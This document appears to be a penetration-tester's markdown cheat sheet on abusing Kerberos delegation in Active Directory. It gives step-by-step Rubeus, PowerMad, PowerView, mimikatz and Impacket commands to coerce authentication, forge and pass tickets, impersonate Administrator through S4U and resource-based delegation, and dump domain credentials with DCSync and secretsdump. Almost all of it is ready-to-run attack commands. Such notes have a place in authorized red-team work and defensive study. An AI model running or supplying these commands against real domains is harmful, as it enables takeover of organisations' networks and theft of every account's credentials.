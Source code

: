
## Unconstrained Delegation Abuse

* Monitor host with Unconstrained Delegation
   * Open cmd as admin
   * `Rubeus.exe monitor /interval:5 /filteruser:DC01$`
* Then force authentication to your host, for example via Printerbug, Petitpotam, or Coercer.
* Pass-the-Ticket
   * `cat ticket.txt | tr -d '\n' | tr -d ' '`
   * `Rubeus.exe ptt /ticket:<ticket>`
* DCSync
   * `mimikatz.exe "lsadump::dcsync /domain:test.local /user:test\Administrator" "exit"`


## Constrained Delegation Abuse

* Request TGT for compromised service with Constrained Delegation
   * `Rubeus.exe asktgt /user:<user> /domain:<domain> /rc4:<ntlm>`
* Invoke S4U extensions
   * `cat ticket.txt | tr -d '\n' | tr -d ' '`
   * `Rubeus.exe s4u /ticket:<ticket> /impersonateuser:Administrator /msdsspn:<spn> [/altservice:<spn>] /ptt`


## Resource-Based Constrained Delegation Abuse (RBCD)

* Create new machine account (with PowerMad)
   * Option 1 - `PowerMad: New-MachineAccount -MachineAccount <computername> -Password $(ConvertTo-SecureString '<pass>' -AsPlainText -Force)`
   * Option 2 - `SharpMad: Sharpmad.exe MAQ -Action new -MachineAccount <computername> -MachinePassword <pass>`
* Create SecurityDescriptor
   * `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`
   * `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
* Convert SecurityDescriptor
   * `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
   * `$SD.GetBinaryForm($SDbytes,0)`
* Set msds-allowedtoactonbehalfofotheridentity on target where we have GenericWrite privileges (with PowerView)
   * `Get-DomainComputer -Identity <target> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
* Use S4U to request a TGS
   * `Rubeus.exe s4u /user:myComputer$ /rc4:<ntlm> /impersonateuser:administrator /msdsspn:CIFS/<target> /ptt`
* Verify access
   * `ls \\<target>\c$`


## Impacket RBCD

* Add Computer
   * `addcomputer.py -computer-name 'rbcd$' -computer-pass 'Password12345' -hashes <ntlm_of_owned_computer$> -dc-ip <ip> 'fqdn/owned_computer$'`
* Set attribute
   * `rbcd.py -delegate-to '<target_computer$>' -delegate-from 'rbcd$' -action write -hashes <ntlm_of_owned_computer$> -dc-ip <ip> '<fqdn/owned_computer$>'`
* Get TGT
   * `getST.py -spn CIFS/<target.fqdn> -impersonate 'Administrator' -dc-ip <ip> '<fqdn>/rbcd$:Password12345'`
* Set environment
   * `export KRB5CCNAME=/home/kali/Administrator.ccache`
* SecretsDump
   * `secretsdump.py -k -no-pass <fqdn>/Administrator@<target_computer$>`
